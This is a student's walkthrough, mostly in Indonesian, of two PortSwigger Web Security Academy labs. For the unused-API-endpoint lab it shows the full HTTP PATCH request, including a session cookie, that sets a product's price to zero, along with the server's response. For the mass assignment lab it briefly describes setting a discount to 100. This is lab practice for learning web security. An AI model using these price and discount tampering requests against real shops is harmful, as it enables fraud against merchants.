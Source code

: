 


## Lab: Finding and exploiting an unused API endpoint
solve soal 2:

cara solve saya: 
1. saya pertama mencari api yang mendapatkan /api/1/price, yang di mana 1 adalah id dari product
2. dan saya coba send ke repeeter dan mengganti method ke options untuk check method apa aja yang boleh
3. saya ganti method nya ke patch dan content type ke application json dan edit price nya jadi 0

```json
PATCH /api/products/1/price HTTP/2
Host: 0a79003d044fd86384887fcc00b900b5.web-security-academy.net
Cookie: session=8fiekNKFDbPyeyasFgPPrnn21o4Mm3IV
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a79003d044fd86384887fcc00b900b5.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json
Content-Length: 20

{
	"price" : 0
}
```

respone:

```json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

## Lab: Exploiting a mass assignment vulnerability

solve soal 3: 

langkah-langkah: 
1. saya mencari sebuah endpoint untuk edit price, tapi tidak ke temu saya coba place order dan saya tertarik dengan kata discount di method GET nya
2. saya coba paste object json nya dan ganti ke 100 discount nya

